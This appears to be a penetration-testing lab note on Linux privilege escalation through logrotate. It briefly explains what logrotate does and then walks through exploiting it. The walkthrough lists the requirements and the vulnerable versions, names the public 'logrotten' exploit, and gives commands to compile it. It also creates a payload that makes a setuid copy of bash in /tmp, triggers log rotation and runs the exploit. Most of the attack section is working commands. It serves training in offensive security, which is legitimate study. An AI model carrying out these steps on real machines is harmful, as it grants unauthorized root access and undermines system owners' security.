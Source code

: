 Every Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called `logrotate` takes care of archiving or disposing of old logs. If no attention is paid to log files, they become larger and larger and eventually occupy all available disk space. Furthermore, searching through many large log files is time-consuming. To prevent this and save disk space, `logrotate` has been developed. The logs in `/var/log` give administrators the information they need to determine the cause behind malfunctions. Almost more important are the unnoticed system details, such as whether all services are running correctly.

`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.
----------------
To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

Build exploit
```shell
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Create a payload
```shell
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`

```bash
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

Trigger logrotation by editing log file you have access to and can write to
```bash
echo test > /home/htb-student/backups/access.log
```

**IMMEDIATELY RUN EXPLOIT**
Create option
```bash
./logrotten -p ./payload /tmp/tmp.log
```

Compress option
```bash
./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log
```